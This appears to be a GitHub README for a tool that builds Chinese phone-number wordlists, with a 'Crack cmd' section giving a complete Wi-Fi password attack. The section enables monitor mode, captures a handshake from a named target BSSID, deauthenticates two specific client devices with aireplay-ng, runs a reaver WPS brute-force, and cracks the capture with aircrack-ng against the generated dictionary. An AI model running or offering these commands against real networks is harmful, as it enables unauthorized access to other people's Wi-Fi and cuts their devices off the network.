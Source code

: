 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

`fetch_url.py` fetches all phone number regions from [www.51hao.cc](http://www.51hao.cc)
`load_phone_region.py` loads phone numbers to sqlitedb
`phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}

###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```
